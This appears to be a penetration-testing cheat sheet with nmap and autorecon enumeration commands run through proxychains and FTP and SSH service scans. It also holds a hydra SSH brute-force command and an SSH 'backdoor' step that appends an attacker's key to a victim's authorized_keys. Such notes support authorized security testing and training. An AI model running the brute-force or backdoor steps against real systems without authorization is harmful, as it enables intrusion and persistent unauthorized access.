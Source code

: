 ### Proxychains

```text
# Top 20 TCP port scan
proxychains nmap -Pn -sT --top-ports=20 --open -oN top_20_tcp_nmap.txt $ip

# Top 1000 TCP port scan
proxychains nmap -Pn -sT --top-ports=1000 --open -oN top_1000_tcp_nmap.txt $ip

# Scan TCP ports (safe scripts + version detection)
proxychains nmap -Pn -sT -sC -sV -p 21,22,80 -oN tcp_nmap_sC_sV.txt $ip
```

### Autorecon

```text
# Scan single target
sudo autorecon -o enumeration $ip

# Scan multiple targets
sudo autorecon -o enumeration $ip1 $ip2 $ip3 $ip4
```

## Services

### FTP (21/tcp)

```text
# Version detection + NSE scripts
nmap -Pn -sV -p 21 --script="banner,(ftp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_21_ftp_nmap.txt" $ip
```

### SSH (22/tcp)

```text
# Version detection + NSE scripts
nmap -Pn -sV -p 22 --script=banner,ssh2-enum-algos,ssh-hostkey,ssh-auth-methods -oN tcp_22_ssh_nmap.txt $ip
```

**Brute force**

```text
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

**Backdoor (post exploitation)**

```text
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

